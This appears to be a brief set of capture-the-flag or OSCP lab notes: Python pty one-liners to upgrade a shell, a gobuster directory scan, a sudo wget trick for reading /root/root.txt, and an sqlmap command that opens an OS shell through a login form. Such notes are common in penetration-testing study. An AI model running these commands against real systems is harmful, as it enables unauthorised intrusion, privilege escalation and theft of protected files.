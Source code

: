 ### upgrading shells

https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

/bin/sh -i
```

gobuster dir --url https://10.129.240.189 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

using wget to reveal the text as /root/root

sudo wget --input-file /root/root.txt

sqlmap --forms -u http://192.168.238.140/login.asp --os-shell --batch

